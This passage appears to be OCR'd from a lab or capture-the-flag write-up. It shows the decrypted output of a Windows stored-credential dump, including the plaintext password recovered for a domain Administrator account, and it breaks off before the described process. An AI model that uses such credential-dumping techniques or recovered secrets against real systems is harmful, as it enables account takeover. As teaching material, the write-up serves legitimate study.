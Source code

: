     8e61e05bd5d1cb8200711551a100ed3b853598b3875ba90b689bc483342fbf671b89c99

    Decrypting Credential:
     * volatile cache: GUID:{0792c32e-48a5-4fe3-8b43-d93d64590580};KeyHash:bf6d0654e
    f999c3ad5b09692944da3c0d0b68afe
    **CREDENTIAL**
      credFlags      : 00000030 - 48
      credSize       : 000000f4 - 244
      credUnk0       : 00002004 - 8196

      Type           : 00000002 - 2 - domain_password
      Flags          : 00000000 - 0
      LastWritten    : 8/22/2018 9:18:49 PM
      unkFlagsOrSize : 00000038 - 56
      Persist        : 00000003 - 3 - enterprise
      AttributeCount : 00000000 - 0
      unk0           : 00000000 - 0
      unk1           : 00000000 - 0
      TargetName     : Domain:interactive=ACCESS\Administrator
      UnkData        : (null)
      Comment        : (null)
      TargetAlias    : (null)
      UserName       : ACCESS\Administrator
      CredentialBlob : 55Acc3ssS3cur1ty@megacorp
      Attributes     : 0



Here's that entire process:
